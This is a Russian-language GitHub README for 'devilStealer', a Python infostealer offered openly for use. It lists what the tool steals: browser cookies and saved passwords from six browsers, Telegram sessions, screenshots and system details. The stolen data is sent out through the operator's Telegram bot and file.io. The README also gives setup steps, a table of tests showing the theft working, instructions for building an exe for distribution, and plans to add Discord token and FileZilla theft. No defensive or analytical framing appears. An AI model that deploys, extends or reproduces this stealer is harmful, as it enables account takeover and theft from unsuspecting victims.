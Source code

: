 # devilStealer
### Python стиллер с отправкой через Telegram бота
### Какие данные ворует стиллер
- Телеграмм сессия
- Куки с Chrome
- Куки с Firefox
- Куки с Opera
- Куки с Yandex
- Куки с Amigo
- Куки с Edge

- Пароли с Chrome
- Пароли с Firefox
- Пароли с Opera
- Пароли с Yandex
- Пароли с Amigo
- Пароли с Edge
  
- Снимок экрана компьютера
- Информация о ПК
  - Время запуска стиллера
  - Имя пользователя/компьютера
  - IP
  - MAC адрес
  - Hostname
  - Информация о сетевых подключениях
  - Найденные программы стиллером
  - Информация о CPU
  - Информация о GPU
  - Информация о оперативной памяти
  - Информация о дисках
  - Информация об ОС
**Данные которые ворует стиллер могут обновляться**

### Последний тест стиллера
**Версия python на которой проводились тесты: 3.11**

**Версия библиотек на которых проводились тесты:
Pillow 10.0.0
browser-cookie3 0.19.1
psutil 5.9.5
pywin32 306
pyTelegramBotAPI 4.13.0**
| Данные | Дата последнего теста | Работает |
| ----------- | ----------- | ----------- |
| Куки с Chrome    | 28.08.2023   | Да   |
| Куки с Firefox    | 27.08.2023   | Да   |
| Куки с Opera    | 27.08.2023   | Да   |
| Куки с Yandex    | 28.08.2023   | Да   |
| Куки с Amigo    | -   | ?   |
| Куки с Edge    | 27.08.2023   | Да   |
| Пароли с Chrome    | 28.08.2023   | Да   |
| Пароли с Firefox    | 28.08.2023   | Да   |
| Пароли с Opera    | 27.08.2023   | Да   |
| Пароли с Yandex    | 28.08.2023   | Да   |
| Пароли с Amigo    | -   | ?   |
| Пароли с Edge    | 28.08.2023   | Да   |
| Сессия Telegram    | 28.08.2023   | Да   |
| Снимок экрана    | 28.08.2023   | Да   |
| Информация о ПК    | 28.08.2023   | Да   |

### Как установить
#### Windows
**Установка библиотек**

```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```

**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)


Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)

```
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
```

**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**

```
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
```

**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**

**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**

#### MAC OS / Linux
**Установка библиотек**

```
pip3 install Pillow
pip3 install browser-cookie3
pip3 install psutil
pip3 install pywin32
pip3 install pyTelegramBotAPI
```

**После установки библиотек скачайте и откройте архив с данным репозиторием**
**Отредактируйте bot.py**
Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)


Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)

```
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
```

**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**

```
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerDatascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
```

**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**
**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**

### Скоро будет
1. Получение куки и пароли с других браузеров
2. Получение данных с FileZilla
3. Получение токена Discord
4. Другие способы отправки логов
